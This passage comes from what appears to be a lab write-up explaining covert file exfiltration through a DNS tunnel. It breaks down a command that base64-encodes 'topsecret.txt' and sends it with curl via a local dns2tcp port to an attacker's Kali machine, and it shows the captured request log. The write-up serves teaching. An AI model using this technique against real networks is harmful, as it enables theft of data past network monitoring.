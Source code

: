 - **`base64`**: A command-line tool to encode binary data into ASCII text using Base64 (common for transmitting data over text protocols like HTTP).

- **`-w 0`**: Disables line wrapping (i.e., output is on one long line). This is necessary because we want the base64 string to be valid in a URL.

- **`topsecret.txt`**: The file we want to send.


#### 2\. `$(...)` 
This is **command substitution** in Bash.
- It takes the output of the command inside and **replaces it inline**.

- `$(base64 -w 0 topsecret.txt)` becomes something like: `4oCcVE9QIFNFQ1JFV...`

_This is the actual **exfiltration step**, done covertly through DNS._


#### 3\. `curl "http://127.0.0.1:9001/?...` 

This part **sends the base64-encoded contents as a URL parameter** to the local proxy port `9001`, which **tunnels the HTTP request to the attacker's machine** (Kali) through DNS.

- **`curl`**: A tool to make HTTP requests.

- **`http://127.0.0.1:9001/`**:

  - `127.0.0.1`: This is **localhost**. It refers to the same machine.

  - `9001`: This is the **local port where dns2tcpc is listening** and forwarding traffic to Kali through the DNS tunnel.

- **`?...`**: The `?` starts a **query string** in the URL. Whatever follows is sent as a parameter.

##
### Decoding the Captured Data

 _The following screenshot shows the moment the Kali machine receives an HTTP request via the DNS tunnel:_

  ![HTTP Request Kali](images/http_reques_kali.png)


```
127.0.0.1 - - [23/Jul/2025 20:53:10] "GET /?4oCcVE9QIFNFQ1JFVCBEQVRB4oCdCg== HTTP/1.1" 200 -
```
This line is a standard HTTP request log entry printed by the Python HTTP server. 

- `127.0.0.1`: This is the IP address of the client making the request. `127.0.0.1` is the **loopback address**, meaning the request was made **locally** on the same machine (Kali).

